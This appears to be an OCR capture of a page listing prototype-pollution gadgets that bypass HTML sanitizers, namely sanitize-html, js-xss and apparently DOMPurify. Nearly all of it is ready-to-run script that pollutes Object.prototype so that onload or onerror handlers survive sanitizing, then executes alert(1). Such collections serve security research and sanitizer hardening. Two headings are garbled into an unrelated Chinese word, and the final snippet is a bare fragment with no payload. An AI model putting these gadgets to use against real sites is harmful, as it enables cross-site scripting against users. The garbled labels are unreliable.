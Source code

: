 #### **sanitize-html**

```
<script>

Object.prototype['*'] = ['onload']</script>

<script>

document.write(sanitizeHtml('<iframe onload=alert(1)>'))

</script>
```

#### **js-xss**

```
<script>

Object.prototype.whiteList = {img: ['onerror', 'src']}

</script>

<script>

document.write(filterXSS('<img src onerror=alert(1)>'))

</script>
```

#### 驯化

```
<script>

Object.prototype.ALLOWED_ATTR = ['onerror', 'src']

</script>

<script>

document.write(DOMPurify.sanitize('<img src onerror=alert(1)>'))

</script>
```

#### 驯化

```
<script>

Object.prototype.documentMode = 9

</script>
```
